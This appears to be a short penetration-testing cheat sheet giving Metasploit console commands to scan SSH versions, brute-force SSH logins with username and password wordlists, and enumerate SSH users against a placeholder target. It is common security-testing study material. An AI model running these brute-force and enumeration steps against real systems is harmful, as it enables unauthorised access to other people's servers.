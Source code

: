 # Enumerating SSH Port
#### ENUMERATING SSH VERSION:

```sh
use auxiliary/scanner/ssh/ssh_version
set RHOSTS "TARGET IP"
exploit
```

#### BRUTE-FORCING SSH LOGIN:

```sh
use auxiliary/scanner/ssh/ssh_login
set RHOST "TARGET IP"
set USER_FILE "USERNAME WORDLIST"
set PASS_FILE "PASSWORD WORDLIST"
exploit
```

#### ENUMERATING SSH USERS:

```sh
use auxiliary/scanner/ssh/ssh_enumusers
set RHOST "TARGET IP"
set USER_FILE "USERNAME WORDLIST"
exploit
```
